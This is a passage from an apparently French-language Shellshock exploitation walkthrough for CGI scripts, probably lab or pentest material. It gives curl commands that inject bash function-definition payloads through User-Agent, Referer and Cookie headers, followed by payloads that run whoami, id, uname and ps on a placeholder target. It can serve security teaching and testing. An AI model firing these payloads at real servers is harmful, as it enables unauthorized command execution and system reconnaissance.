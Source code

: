 ### Test manuel avec curl
```bash
# Test de base
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'echo VULNERABLE'" http://<target>/cgi-bin/test.cgi

# Test avec différents headers
curl -H "Referer: () { :; }; echo; echo; /bin/bash -c 'echo SHELLSHOCK'" http://<target>/gettime.cgi
curl -H "Cookie: () { :; }; echo; echo; /bin/bash -c 'whoami'" http://<target>/cgi-bin/admin.cgi
```
![img.png](img.png)

---

## Phase 3: Exploitation

### Payloads de base

#### Vérification d'exécution
```bash
() { :; }; echo; echo; /bin/bash -c 'echo "SHELLSHOCK_TEST"'
```

#### Collecte d'informations système
```bash
# Utilisateur actuel
() { :; }; echo; echo; /bin/bash -c 'whoami'

# ID utilisateur et groupes
() { :; }; echo; echo; /bin/bash -c 'id'

# Informations système
() { :; }; echo; echo; /bin/bash -c 'uname -a'

# Liste des processus
() { :; }; echo; echo; /bin/bash -c 'ps -ef'

# Fichiers système sensibles
```